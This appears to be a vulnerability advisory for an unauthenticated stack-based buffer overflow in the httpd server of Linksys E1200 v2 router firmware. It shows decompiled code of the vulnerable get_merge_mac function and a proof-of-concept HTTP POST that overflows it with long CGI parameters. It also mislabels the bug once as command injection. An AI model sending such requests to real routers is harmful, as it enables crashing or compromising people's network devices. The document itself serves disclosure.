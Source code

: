 # Buffer Overflow Vulnerability in `get_merge_mac`

1. Vulnerability Overview

| **Field**            | **Details**                                                  |
| -------------------- | ------------------------------------------------------------ |
| Affected Product     | Linksys E1200 v2 Router                                      |
| Firmware Version     | **E1200_v2.0.11.001_us.tar.gz**                              |
| Vulnerability Type   | **Stack-Based Buffer Overflow**                              |
| Vulnerable Component | `httpd` (function `get_merge_mac`, buffer `a2`)              |
| Prerequisites        | No authentication required; remote exploitation possible via CGI parameters matching `<parameter>_0~5` |

2. Exploitation Path

```c
int __fastcall get_merge_mac(const char *a1, char *a2)
{
  int v4; // $s2
  const char *cgi; // $v0
  const char *v6; // $s0
  char *v8; // $v0
  char v9[32]; // [sp+20h] [-20h] BYREF

  *a2 = 0;
  v4 = 0;
  do
  {
    snprintf(v9, 0x1Eu, "%s_%d", a1, v4);
    cgi = (const char *)get_cgi((int)v9);
    v6 = cgi;
    if ( cgi )
    {
      if ( strlen(cgi) == 1 )
        goto LABEL_9;
    }
    else
    {
      v6 = "00";
      if ( strlen("00") == 1 )
LABEL_9:
        strcat(a2, "0");
    }
    strcat(a2, v6);
    if ( v4 == 5 )
      break;
    ++v4;
    v8 = &a2[strlen(a2)];
    *v8 = 58;
    v8[1] = 0;
  }
  while ( v4 != 6 );
  return 1;
}
```

3. **Vulnerable Binaries:** `httpd`.
4. 0-Day Command Injection Exploitation Path: In the `httpd` file, at line 14, `cgi = (const char *)get_cgi((int)v9)` receives data via `get_cgi` without any length restriction. A loop of 6 iterations performs string concatenation at line 28 with `strcat(a2, v6)`. An attacker can send specially crafted CGI parameters, resulting in a buffer overflow vulnerability.
5. Proof of Concept (PoC) for Reproducing the Vulnerability

```http
POST /cgi-bin/get_merge_mac HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 600

param_0=AAAAAAAAAAAAAAAAAAAA&param_1=BBBBBBBBBBBBBBBBBBBB&param_2=CCCCCCCCCCCCCCCCCCCC&param_3=DDDDDDDDDDDDDDDDDDDD&
param_4=EEEEEEEEEEEEEEEEEEEE&param_5=FFFFFFFFFFFFFFFFFFFF
```